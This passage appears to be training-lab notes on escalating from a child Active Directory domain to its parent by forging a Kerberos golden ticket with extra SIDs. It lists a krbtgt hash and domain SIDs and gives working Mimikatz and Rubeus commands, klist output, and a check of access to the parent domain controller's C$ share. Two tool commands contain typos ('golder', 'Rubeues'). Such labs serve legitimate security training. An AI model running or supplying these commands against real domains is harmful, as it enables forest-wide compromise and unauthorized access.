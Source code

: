 - At this point we have all information:
	(1) - 9d765b482771505cbe97411065964d5f
	(2) - S-1-5-21-2806153819-209893948-922872689
	(3) -  we can create a fake user `hacker`
	(4) - LOGISTICS.INLANEFREIGHT.LOCAL
	(5) - S-1-5-21-3842939050-3880317879-2865463114-519

- Confirm we don't have access to the parent domain
```PowerShell
ls \\academy-ea-dc01.inlanefreight.local\c$

# Should get access denied
```

#### Create a Golden Ticket 
- Using Mimikatz
```PowerShell
mimikatz.exe
kerberos::golder /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

- Using Rubeus
```PowerShell
Rubeues.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

- Confirm the new Kerberos Ticket is in the memory
```PowerShell
klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- Listing the entire C:\ drive of the parent domain
```PowerShell
ls \\academy-ea-dc01.inlanefreight.local\c$

# Should have access
```
